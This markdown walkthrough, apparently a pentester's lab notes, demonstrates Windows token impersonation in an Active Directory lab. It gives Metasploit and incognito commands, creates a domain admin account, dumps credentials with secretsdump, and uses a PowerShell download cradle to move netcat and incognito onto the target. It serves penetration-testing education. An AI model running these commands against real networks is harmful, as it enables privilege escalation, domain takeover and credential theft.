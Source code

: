 # Token Impersonation Attack

## Tokens

For ease of understanding, you can think of tokens as cookies for the computer. These temporary keys allow you access to a system, a network, or a resource without providing the credentials. A web pentester can think of them as cookies or tokens (JWT etc) for accessing credential-protected resources.
A great thing about tokens is that they persist until the next reboot. When a user logs off, their delegate token is reported as an impersonate token. But that token will still hold all the rights of a delegate token.
### Types of Tokens

There are two types of tokens

- Delegate Token
    - These tokens are for the `interactive` logons, such as logging into the machine or connecting to it via Remote Desktop
- Impersonate Token
    - These tokens are for the `non-interactive` sessions, such as attaching a network drive or a domain logon script
[source](https://www.hackingloops.com/token-impersonation-attack/)

**Token impersonation** is a Windows post-exploitation technique that allows an attacker to steal the access token of a logged-on user on the system without knowing their credentials and impersonate them to perform operations with their privileges. [soruce](https://medium.com/r3d-buck3t/domain-escalation-with-token-impersonation-bc577db55a0f)

# Attack DEMO

**Tools required to perform this attack:**
-  Metasploit
- Incognito Standalone Application

**Scenario:** I already have an Active Directory Attack Lab setup that comprises of 1 Domain Controller and 2 Windows 10 machines. For this attack i only need to start up the Domain Controller and 1 target machine. Since this is a post exploitation attack, i have already obtained valid login credentials to the machine through an LLMNR Poisoning attack. Read more [here]()
## Step 1: Start metasploit

![[attachments/Pasted image 20240308151216.png]]

We have to first of all gain access to the target machine using the psexec module in metasploit. We already have valid credentials for our target which was obtained after performing an LLMNR Poisoning attack.

## Step 2: Search for psexec

![[attachments/Pasted image 20240308151417.png]]

## Step 3: Set required options

Now to set required options: **RHOSTS**, **SMBDomain**, **SMBPass**, **SMBUser**, **Payload**

![[attachments/Pasted image 20240308151639.png]]
## Step 4: run the exploit

Options set, now to run the exploit:

![[attachments/Pasted image 20240308151723.png]]
meterpreter shell access obtained as `NT AUTHORITY\SYSTEM`

## Step 5: Load incognito module

Now for the **Token Impersonation Attack**, We first of all load the incoginito module:

![[attachments/Pasted image 20240308151908.png]]

`load incognito`

## Step 6: List available tokens

Now the module is loaded, we need to list the available tokens:

![[attachments/Pasted image 20240308151943.png]]

`list_tokens -u`

## Step 7: Impersonate a user

We can impersonate the fcastle user. Note: In a real world scenario, we would have to wait for users to logon to their accounts.

Impersonating the user fcastle:

![[attachments/Pasted image 20240308152339.png]]

`impersonate_token DEUSX\\fcastle` we add an additional `\` for character escape.

## Step 8: Impersonate Domain Admin User

We are now the fcastle user. Next up is to simulate a login on the machine as an admin and then check the token list again.

Domain Administrator login:

![[attachments/Pasted image 20240308152444.png]]

First run `rev2self` to go back to `NT AUTHORITY\SYSTEM` then list the tokens:

![[attachments/Pasted image 20240308152816.png]]

Now to impersonate the Admin:

![[attachments/Pasted image 20240308152921.png]]

Now that we are Domain Admin we can add user to the Domain:

![[attachments/Pasted image 20240308153211.png]]

`net user /add username password /domain`

Adding the user to the Domain Admins group

`net group "Domain Admins" username /ADD /DOMAIN`

The user has been added successfully and the user was also added to the Domain Admins group.

To confirm we can login and check the list of users:

![[attachments/Pasted image 20240308153336.png]]

![[attachments/Pasted image 20240308153410.png]]

With this new user we can now dump credentials from the domain using secretsdump.

![[attachments/Pasted image 20240308153622.png]]

`impacket-secretsdump DOMAIN/username:'password'@IP`

## Manual Exploitation

**Tools required:**
- Incognito binary https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe
- netcat 64 bit binary https://github.com/int0x33/nc.exe/blob/master/nc64.exe
- psexec https://github.com/fortra/impacket/blob/master/examples/psexec.py

### Step 1: Gain Shell Access using psexec

![[attachments/Pasted image 20240311162050.png]]

`psexec.py DOMAIN/username:'password'@Target_IP`

NOTE: I am using kali and i already have all impacket tools installed which is why i am running psexec using `impacket-psexec`

### Step 2: Transfer binaries (incognito & netcat) to Target system

First start a python server:

![[attachments/Pasted image 20240311162353.png]]

Then download on the Target machine:

![[attachments/Pasted image 20240311162555.png]]

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://IP:PORT/file', 'C:\file')"
```
